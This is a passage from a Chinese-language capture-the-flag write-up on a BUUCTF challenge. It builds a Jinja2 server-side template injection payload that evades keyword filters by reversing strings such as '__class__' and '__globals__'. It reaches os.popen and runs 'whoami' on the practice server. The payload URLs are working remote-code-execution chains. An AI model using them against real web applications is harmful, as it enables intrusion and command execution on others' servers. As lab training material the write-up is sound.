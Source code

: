查看 WP 后发现此处应用**逆序**, 也就是 `''['__tini__'[::-1]]`, 发送后发现未被过滤, 构造payload:

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{''['__ssalc__'[::-1]]['__sesab__'[::-1]][0]['__sessalcbus__'[::-1]]()}}
```

打开响应源代码:

![4-2.png](4-2.png)

定位到 `os._wrap_close`, 继续构造

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{''['__ssalc__'[::-1]]['__sesab__'[::-1]][0]['__sessalcbus__'[::-1]]()[117]['__tini__'[::-1]]['__slabolg__'[::-1]]}}
```

进一步:

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{%27%27[%27__ssalc__%27[::-1]][%27__sesab__%27[::-1]][0][%27__sessalcbus__%27[::-1]]()[117][%27__tini__%27[::-1]][%27__slabolg__%27[::-1]][%27nepop%27[::-1]](%27whoami%27).read()}}
```

回显:

![4-3.png](4-3.png)
